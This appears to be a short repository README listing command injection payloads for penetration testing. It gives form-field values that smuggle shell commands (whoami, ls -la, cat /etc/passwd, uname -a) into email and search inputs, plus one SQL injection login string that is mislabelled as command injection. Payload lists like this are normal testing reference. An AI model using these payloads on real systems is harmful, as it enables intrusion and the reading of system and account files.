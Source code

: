 # Command Injection Prompts

This repository contains a collection of command injection prompts used for penetration testing.

## List of Command Injection Prompts

### Basic Prompts
1. **Subscribe to Newsletter**: `attacker@vulnerable.com; whoami`
2. **Search Products**: `black jacket; ls -la`
3. **Login**: `admin' OR '1'='1`

### Additional Prompts
4. **Get User Profile**: `user@example.com; cat /etc/passwd`
5. **Contact Support**: `attacker@vulnerable.com | uname -a`

